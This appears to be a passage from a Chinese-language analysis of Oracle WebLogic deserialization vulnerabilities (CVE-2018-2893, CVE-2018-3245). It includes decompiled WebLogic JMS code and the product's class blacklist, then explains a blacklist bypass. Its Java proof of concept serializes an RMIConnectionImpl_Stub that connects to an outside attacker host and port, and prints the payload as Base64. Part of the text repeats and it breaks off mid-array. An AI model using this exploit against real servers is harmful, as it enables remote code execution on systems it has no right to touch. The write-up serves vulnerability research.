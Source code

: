 case 2:                    this.payload = (PayloadStream)PayloadFactoryImpl.createPayload((InputStream)var1);            }        } else {            throw JMSUtilities.versionIOException(var3, 1, 3);        }    }    public long getPayloadSize() {        if (this.isCompressed()) {            return (long)this.getCompressedMessageBodySize();        } else if (super.bodySize != -1L) {            return super.bodySize;        } else if (this.payload != null) {            return super.bodySize = (long)this.payload.getLength();        } else {            return this.bos != null ? (long)this.bos.size() : (super.bodySize = 0L);        }    }    private String typeCodeToString(int var1) {        try {            return TYPE_CODE_STRINGS[var1];        } catch (Throwable var3) {            return TYPE_CODE_STRINGS[0];        }    }    private void writeStringInternal(String var1) throws IOException, JMSException {        if (var1.length() > 20000) {            this.writeType((byte)10);            this.bos.writeUTF32(var1);        } else {            this.writeType((byte)9);            this.bos.writeUTF(var1);        }    }    private String readStringInternal(byte var1) throws IOException {        return var1 == 10 ? this.bis.readUTF32() : this.bis.readUTF();    }    private long getLen() {        if (this.bos != null) {            return (long)this.bos.size();        } else {            return this.payload != null ? (long)this.payload.getLength() : 0L;        }    }    public long getBodyLength() throws JMSException {        super.readMode();        return this.getLen();    }    public byte[] getBodyBytes() throws JMSException {        Object var1;        if (this.payload != null) {            var1 = this.payload;        } else {            if (this.bos == null) {                return new byte[0];            }            var1 = this.bos;        }        try {            ByteArrayOutputStream var2 = new ByteArrayOutputStream();            ((Payload)var1).writeTo(var2);            var2.flush();            return var2.toByteArray();        } catch (IOException var3) {            throw new weblogic.jms.common.JMSException(var3);        }    }    public PayloadStream getPayload() throws JMSException {        if (this.isCompressed()) {            try {                this.payload = (PayloadStream)this.decompress();            } catch (IOException var2) {                throw new weblogic.jms.common.JMSException(JMSClientExceptionLogger.logErrorDecompressMessageBodyLoggable().getMessage(), var2);            }        }        return this.payload;    }    public void setPayload(PayloadStream var1) {        if (this.payload == null && this.bis == null && this.bos == null && !this.copyOnWrite) {            try {                this.writeMode();            } catch (JMSException var3) {                throw new AssertionError(var3);            }            this.payload = var1;        } else {            throw new AssertionError();        }    }    public void setDataBuffer(byte[] object, int length) {    }}CVE-2018-2893此CVE主要通过JDK7u21与8u20的原生反序列化链绕过之前黑名单中禁用的Common-collections库，就不赘述了。同时黑名单进行了更新：private static final String[] DEFAULT_BLACKLIST_PACKAGES = { "org.apache.commons.collections.functors", "com.sun.org.apache.xalan.internal.xsltc.trax", "javassist", "java.rmi.activation", "sun.rmi.server" }; private static final String[] DEFAULT_BLACKLIST_CLASSES = { "org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager","java.rmi.server.UnicastRemoteObject", "java.rmi.server.RemoteObjectInvocationHandler" };新增java.rmi.activation.*sun.rmi.server.*java.rmi.server.RemoteObjectInvocationHandlerjava.rmi.server.UnicastRemoteObjectCVE-2018-3245上文中有提到新增黑名单包名/类名：java.rmi.activation.*,sun.rmi.server.*,java.rmi.server.RemoteObjectInvocationHandler,java.rmi.server.UnicastRemoteObject但对我们完整的反序列化流程中真正有影响的只有java.rmi.server.RemoteObjectInvocationHandler类的使用，若有一个类满足：1.不在黑名单中2.继承自java.rmi.server.RemoteObject3.readObject逻辑未重写，或不影响readExtenal方法调用即可绕过黑名单检测。随便找一个都行，比如RMIConnectionImpl_Stubimport com.sun.jndi.rmi.registry.ReferenceWrapper_Stub;import sun.rmi.server.UnicastRef;import sun.rmi.transport.LiveRef;import sun.rmi.transport.tcp.TCPEndpoint;import javax.management.remote.rmi.RMIConnectionImpl_Stub;import java.io.*;import java.rmi.server.ObjID;import java.util.Base64;import java.util.Random;public class CVE_2018_3245 {    public static Object getObject() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("10.51.52.245", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));        RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(unicastRef);        ReferenceWrapper_Stub object = new ReferenceWrapper_Stub(unicastRef);        return stub;    }    public static void main(String[] args) throws IOException, ClassNotFoundException {        ByteArrayOutputStream fout = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fout);        objectOutputStream.writeObject(getObject());        objectOutputStream.close();        System.out.println(Base64.getEncoder().encodeToString(fout.toByteArray()));//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(fout.toByteArray());//        ObjectInputStream inputStream = new ObjectInputStream(byteArrayInputStream);//        inputStream.readObject();    }}其他可利用类就不赘述了。CVE-2018-2893此CVE主要通过JDK7u21与8u20的原生反序列化链绕过之前黑名单中禁用的Common-collections库，就不赘述了。同时黑名单进行了更新：private static final String[] DEFAULT_BLACKLIST_PACKAGES = { "org.apache.commons.collections.functors", "com.sun.org.apache.xalan.internal.xsltc.trax", "javassist", "java.rmi.activation", "sun.rmi.server" }; private static final String[] DEFAULT_BLACKLIST_CLASSES =